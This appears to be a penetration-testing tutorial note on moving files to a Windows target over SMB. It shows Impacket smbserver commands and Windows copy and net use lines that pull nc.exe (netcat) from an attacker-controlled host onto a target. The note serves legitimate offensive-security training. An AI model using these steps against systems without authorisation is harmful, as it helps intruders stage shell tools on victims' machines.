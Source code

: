----
The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where Windows services are running. It enables applications and users to transfer files to and from remote servers.

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item` , or any other tool that allows connection to SMB.

- First create the SMB server

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

- To download a file from the SMB server we can use the following command
```powershell
copy \\<SMB-ip>\share\nc.exe
```

New versions of Windows block unauthenticated guest access. To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our target.

- Create share with username and password
```bash
sudo impacket-smbserver share -smb2support /tmp/share -user test -password test
```

- Mount the SMB server to the target
```powershell
net use n: \\<SMB-ip>\share /user:test test
```

```powershell
copy n:\nc.exe
```